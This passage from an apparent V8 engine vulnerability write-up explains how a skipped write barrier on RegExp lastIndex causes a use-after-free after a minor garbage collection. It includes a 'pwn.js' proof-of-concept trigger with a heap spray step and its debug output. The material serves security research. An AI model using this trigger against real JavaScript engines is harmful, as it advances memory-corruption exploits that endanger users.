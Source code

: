 You may wonder why does the first minor GC consider `HeapNumber` as a live object
even though `re.lastIndex` is set with `SKIP_WRITE_BARRIER`. This is because minor
GC perform marking starting from `re` (since it is in `NewSpace`) and it could
reach `HeapNumber` via `re.lastIndex`. The same applies when doing major GC
instead of minor GC initially.

Things would be different if `re` lives in `OldSpace`, while `HeapNumber` lives
in `NewSpace`. When we do a minor GC, `re` is ignored as minor GC only covers `NewSpace`.
Furthermore, because of the `SKIP_WRITE_BARRIER`, the GC does not aware that
there is a reference to the `HeapNumber` from the `OldSpace`. This causes the
`HeapNumber` object to be garbage collected while `re.lastIndex` still points
to the freed memory, which is basically a UAF on `re.lastIndex`.

If `UPDATE_WRITE_BARRIER` is used instead, `HeapNumber` would eventually
transition to `OldSpace` since the GC is aware of the reference to `HeapNumber`.

```js
// pwn.js
var re = new RegExp("leet", "g");
var exec_bak = RegExp.prototype.exec;  // backup original exec()
var n = 1073741824;
re.exec = function () {
    re.lastIndex = n;
    delete re.exec;  // to pass `HasInitialRegExpMap` check and falls back to RegExp.prototype.exec to avoid infinite loop
    return [""];  // to get into `SetAdvancedStringIndex`
}
eval("%DebugPrint(re)");
gc();  // major gc / mark and sweep: forces `re` to move into `OldSpace`
re[Symbol.replace]("", "l33t");
console.assert(re.lastIndex === n + 1);  // 1073741825 === 1073741824+1
RegExp.prototype.exec = exec_bak;  // restore original exec()

eval("%DebugPrint(re)");
eval("%DebugPrint(re.lastIndex)");

gc({type:'minor'})  // causes `HeapNumber` to be garbage collected [1]

var spray = [0.0, 1.0, 2.0, 3.0, 4.0, 5.0, 6.0, 7.0, 8.0, 9.0, 10.0]

eval("%DebugPrint(re)");
eval("%DebugPrint(spray)");
```

If we only run the code above, we notice that `re` and `HeapNumber` is not so
far apart, but they are actually on two different space. However, `spray` is
not allocated at the same space as our freed `HeapNumber`.

```console
0x228b0004837d <JSRegExp <String[4]: #leet>>
[16454:0x55d1bbdce000]        2 ms: Mark-Compact 0.1 (1.5) -> 0.1 (2.5) MB, 0.47 / 0.00 ms  (average mu = 0.645, current mu = 0.645) testing; GC in old space requested
0x228b0019a705 <JSRegExp <String[4]: #leet>>
0x228b001c2155 <HeapNumber 1073741825.0>
[16454:0x55d1bbdce000]        2 ms: Scavenge 0.1 (2.5) -> 0.1 (2.5) MB, 0.03 / 0.00 ms  (average mu = 0.645, current mu = 0.645) testing;
0x228b0019a705 <JSRegExp <String[4]: #leet>>
0x228b000421dd <JSArray[11]>
```


[^wb]: <https://v8.dev/blog/concurrent-marking>
[^smi-range]: <https://medium.com/fhinkel/v8-internals-how-small-is-a-small-integer-e0badc18b6da>